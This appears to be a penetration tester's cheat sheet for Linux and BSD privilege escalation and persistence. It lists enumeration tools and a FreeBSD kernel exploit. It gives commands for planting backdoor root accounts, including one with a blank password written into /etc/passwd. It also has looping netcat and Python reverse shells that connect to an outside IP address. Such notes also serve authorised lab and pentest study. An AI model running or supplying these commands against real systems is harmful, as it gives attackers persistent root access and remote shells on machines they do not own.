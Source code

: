### Tools
* `linux-exploit-suggester.sh`
* `linuxprivchecker.py`
* `linux-enum-mod.sh`


### Post-Exploitation/Persistence
 * Add a new root user (classic) `/usr/sbin/useradd -ou 0 -g 0 hackerman` then `echo "hackerman:potato"|/usr/sbin/chpasswd`
 * Add a new root user (blank pwd) `echo hackerman2::0:0:root:/root:/bin/bash >> /etc/passwd`
 * Reslient nc shell `while true; do /bin/netcat 10.11.0.35 3000 -e /bin/bash ; done;`
 * Resilient python shell `while true; do python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.35",5000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'; done;`

### Link Dump
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# BSD

### Kernel Exploits
```
 ○ FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation EID 28718
```

### Key Differences from Linux
```
 ○ /usr/bin/fetch instead of wget
 ○ wheel group instead of root group
```

### Post-Exploitation/Persistence
 ○ Add a new user `echo "potato" | pw useradd -n hack -s /bin/sh -m -g 0 -ou 0 -d /home/hack -h 0`